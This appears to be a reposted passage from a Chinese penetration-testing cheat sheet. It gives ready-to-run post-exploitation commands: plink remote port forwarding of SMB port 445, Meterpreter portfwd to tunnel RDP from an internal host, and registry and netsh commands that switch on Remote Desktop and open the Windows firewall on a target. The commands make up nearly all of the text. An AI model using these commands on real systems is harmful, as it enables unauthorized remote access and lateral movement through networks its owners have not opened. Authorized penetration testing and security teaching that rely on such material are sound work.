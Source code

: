 ## PuTTY 连接隧道

<pre class="prettyprint linenums" >转发远程端口到目标地址
plink.exe -P 22 -l root -pw "1234" -R 445:127.0.0.1:445 IP
</pre>

## Meterpreter 端口转发

<pre class="prettyprint linenums" ># https://www.offensive-security.com/metasploit-unleashed/portfwd/
# 转发远程端口到目标地址
meterpreter > portfwd add –l 3389 –p 3389 –r 172.16.194.141
kali > rdesktop 127.0.0.1:3389
</pre>

## 开启 RDP 服务

<pre class="prettyprint linenums" >reg add "hklm\system\currentcontrolset\control\terminal server" /f /v fDenyTSConnections /t REG_DWORD /d 0
netsh firewall set service remoteadmin enable
netsh firewall set service remotedesktop enable
</pre>

*原文：jivoi，[FB小编xiaix编译](http://www.freebuf.com/sectool/105524.html)，转自FreeBuf黑客与极客（FreeBuf.COM）

转载请注明：[自动化运维](http://www.wanglijie.cn) &raquo; [渗透测试工具实战技巧合集](http://www.wanglijie.cn/2016/05/%e6%b8%97%e9%80%8f%e6%b5%8b%e8%af%95%e5%b7%a5%e5%85%b7%e5%ae%9e%e6%88%98%e6%8a%80%e5%b7%a7%e5%90%88%e9%9b%86.html)
